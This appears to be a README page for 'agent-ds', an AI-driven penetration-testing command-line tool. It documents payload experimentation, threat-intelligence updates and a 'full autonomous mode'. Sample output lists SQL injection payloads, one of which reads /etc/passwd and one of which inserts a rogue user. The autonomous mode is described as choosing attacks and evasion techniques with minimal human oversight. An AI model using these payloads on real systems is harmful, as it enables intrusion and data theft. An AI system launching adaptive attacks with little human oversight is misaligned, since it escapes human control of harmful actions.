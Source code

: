 
### Step 4: View AI Learning Insights
```bash
# View generated learning insights
agent-ds ai insights --limit 10

# Expected output showing insights like:
# ┌─────────────────┬─────────────────────────────┬────────────┬──────────────────┐
# │ Type            │ Success Factors             │ Confidence │ Scenarios        │
# ├─────────────────┼─────────────────────────────┼────────────┼──────────────────┤
# │ success_pattern │ payload_length:45,          │ 0.85       │ sql_injection,   │
# │                 │ sql_union_technique,        │            │ mysql_targets    │
# │                 │ target_mysql:5.7            │            │                  │
# └─────────────────┴─────────────────────────────┴────────────┴──────────────────┘
```

## Advanced AI Features

### Payload Experimentation
```bash
# Experiment with novel SQL injection payloads
agent-ds ai experiment --attack-type sql_injection --target mysql

# Safe sandbox-only mode for testing
agent-ds ai experiment --attack-type xss --sandbox-only

# Results show novel payload discoveries:
# Novel Payloads Discovered: 3
# Success Rate: 37.5%
# 1. ' UNION SELECT LOAD_FILE('/etc/passwd'),2,3--
# 2. ' OR SLEEP(5) AND '1'='1'--
# 3. '; INSERT INTO users VALUES('hacker','pwned');--
```

### External Intelligence Updates
```bash
# Update AI knowledge with latest threat intelligence
agent-ds ai train --external-intel

# Results:
# ✓ Updated external intelligence
# Updated intelligence from 2 sources
# Intelligence Sources Updated: cve, exploitdb
# New Intelligence Items: 47
```

### Full Autonomous Mode
```bash
# Enable full AI autonomous mode (requires authorization confirmation)
agent-ds ai adaptive-attack --target vulnerable-app.com --ai-mode

# WARNING: This will execute adaptive attacks with minimal human oversight
# The AI will make real-time decisions about:
# - Attack vector selection
# - Payload generation and modification
# - Evasion technique application
# - Attack sequence optimization
```
